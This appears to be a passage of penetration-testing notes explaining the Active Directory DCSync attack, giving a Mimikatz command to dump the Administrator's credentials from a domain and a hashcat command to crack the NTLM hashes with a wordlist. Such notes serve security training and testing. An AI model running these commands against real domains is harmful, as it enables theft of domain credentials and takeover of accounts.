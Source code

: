 When the AD has to synchronize the domains, it runs the Directory Replication Service (DRS) Remote Protocol. Because the domain doesnpt verify the origin of the request, we can perform a **dcsync** attack that could dump any user credential in the domain. We can use the `impacket-secretsdump` utility. First we run Mimikatz with the dsync attack.

```powershell
lsadump::dcsync /domain:<DOMAIN> /user:Administrator
```

We crack the NTLM HASH with hashcat

```powershell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt --force
```
